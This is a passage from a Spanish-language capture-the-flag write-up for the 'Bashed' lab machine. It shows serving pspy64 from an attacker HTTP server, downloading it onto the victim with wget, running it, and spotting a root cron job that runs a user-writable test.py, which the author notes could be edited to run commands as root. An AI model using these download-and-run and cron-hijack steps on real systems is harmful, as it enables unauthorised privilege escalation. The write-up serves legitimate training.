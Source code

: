 Al pasar un tiempo determinado el archivo `test.txt` se ha modificado con éxito, esto huele a tarea cron. Vamos a ver que sucede por detrás con `pspy`.

<h3 style="text-align:center" id="pspy">PSPY64</h3>
<hr>
<br>
Para pasarnos `pspy64` y ejecutarlo seguimos los siguientes pasos.

1- Nos montamos un servidor web con python.

```bash
❯ python3 -m http.server --bind 10.10.16.5
Serving HTTP on 10.10.16.5 port 8000 (http://10.10.16.5:8000/) ...

```
<br>
2- Desde la máquina víctima nos descargamos el programa.

```bash
scriptmanager@bashed:/scripts$ wget http://10.10.16.5:8000/pspy64
--2022-08-19 07:44:43--  http://10.10.16.5:8000/pspy64
Connecting to 10.10.16.5:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: 'pspy64'

pspy64              100%[===================>]   2.94M  1.55MB/s    in 1.9s    

2022-08-19 07:44:45 (1.55 MB/s) - 'pspy64' saved [3078592/3078592]

```
<br>
3- Le asignamos permisos de ejecución.
```bash
chmod +x pspy64 
```
<br>
4- Lanzamos el script.

```bash
scriptmanager@bashed:/scripts$ ./pspy64 

```
<br>
5- Analizamos el resultado.
```python
2022/08/19 07:48:01 CMD: UID=0    PID=10374  | /usr/sbin/CRON -f 
2022/08/19 07:48:01 CMD: UID=0    PID=10375  | /usr/sbin/CRON -f 
2022/08/19 07:48:01 CMD: UID=0    PID=10376  | python test.py 
2022/08/19 07:49:01 CMD: UID=0    PID=10377  | /usr/sbin/CRON -f 
2022/08/19 07:49:01 CMD: UID=0    PID=10378  | /usr/sbin/CRON -f 
2022/08/19 07:49:01 CMD: UID=0    PID=10379  | python test.py 

```
Como podemos observar existe una tarea cron la cual provoca que el usuario root `UID=0` esté ejecutando el fichero `test.py` cada minuto. Al ser dueños de este script podemos modificarlo
para ejecutar cualquier comando como usuario ROOT.
